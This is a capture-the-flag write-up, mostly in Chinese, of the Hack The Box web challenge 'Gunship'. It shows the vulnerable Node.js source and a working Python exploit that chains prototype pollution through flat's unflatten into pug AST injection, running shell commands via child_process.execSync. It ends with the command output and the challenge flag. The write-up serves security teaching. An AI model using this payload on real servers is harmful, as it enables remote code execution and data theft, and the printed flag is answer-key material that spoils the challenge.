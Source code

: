 # Gunship

:::note CHALLENGE DESCRIPTION

VERY EASY

A city of lights, with retrofuturistic 80s peoples, and coffee, and drinks from another world... all the wooing in the world to make you feel more lonely... this ride ends here, with a tribute page of the British synthwave band called Gunship. 🎶

:::

```javascript title="index.js"
const express       = require('express');
const app           = express();
const routes        = require('./routes');
const path          = require('path');

app.use(express.json());
app.set('views','./views');
app.use('/static', express.static(path.resolve('static')));

app.use(routes);

app.all('*', (req, res) => {
    return res.status(404).send('404 page not found');
});

app.listen(1337, () => console.log('Listening on port 1337'));
```

在页面底部发现一个输入框

![img](img/image_20240357-185735.png)

根据 POST 发送的路由，定位到

```javascript title="challenge\routes\index.js"
const path              = require('path');
const express           = require('express');
const pug                = require('pug');
const {unflatten}     = require('flat');
const router            = express.Router();

router.get('/', (req, res) => {
    return res.sendFile(path.resolve('views/index.html'));
});

router.post('/api/submit', (req, res) => {
    const {artist} = unflatten(req.body);

    if (artist.name.includes('Haigh') || artist.name.includes('Westaway') || artist.name.includes('Gingell')) {
        return res.json({
            'response': pug.compile('span Hello #{user}, thank you for letting us know!')({ user: 'guest' })
        });
    } else {
        return res.json({
            'response': 'Please provide us with the full name of an existing member.'
        });
    }
});

module.exports = router;
```

参考以下两个文章

- [How AST Injection and Prototype Pollution Ignite Threats | by rayepeng | Medium](https://rayepeng.medium.com/how-ast-injection-and-prototype-pollution-ignite-threats-abb165164a68)
- [一文带你理解 AST Injection - 先知社区](https://xz.aliyun.com/t/12635?time__1311=mqmhDvqIx%2BOKDsD7GQ0%3DQoqWqGIxG%3D%2B5b4D&alichlgref=https%3A%2F%2Fwww.google.com%2F)

编写攻击 exp

```python
import requests
import base64

TARGET_URL = "http://94.237.56.248:50213"


command = "ls -lh"

print("Command: {}\n".format(command))

r = requests.post(
    TARGET_URL + "/api/submit",
    json={
        "artist.name": "Haigh",
        "__proto__.block": {
            "type": "Text",
            "line": "process.mainModule.require('child_process').execSync('$({command} | base64 > /app/static/out)')".format(command=command),
        },
    },
)

r = requests.get("http://94.237.56.248:50213/static/out").text

print(base64.b64decode(r).decode())
```

对网站进行交互

```shell
Command: ls -lh

total 56K
-rw-r--r--    1 nobody   nobody        56 Aug 13  2021 flagpJtu8
-rw-r--r--    1 nobody   nobody       441 Oct  9  2020 index.js
drwxr-xr-x   89 root     root        4.0K Aug 13  2021 node_modules
-rw-r--r--    1 nobody   nobody       359 Oct  9  2020 package.json
drwxr-xr-x    2 nobody   nobody      4.0K Aug 13  2021 routes
drwxr-xr-x    1 nobody   nobody      4.0K Mar 11 11:25 static
drwxr-xr-x    2 nobody   nobody      4.0K Aug 13  2021 views
-rw-r--r--    1 nobody   nobody     25.5K Oct  9  2020 yarn.lock

Command: cat flagpJtu8

HTB{wh3n_lif3_g1v3s_y0u_p6_st4rT_p0llut1ng_w1th_styl3!!}
```

```plaintext title="Flag"
HTB{wh3n_lif3_g1v3s_y0u_p6_st4rT_p0llut1ng_w1th_styl3!!}
```
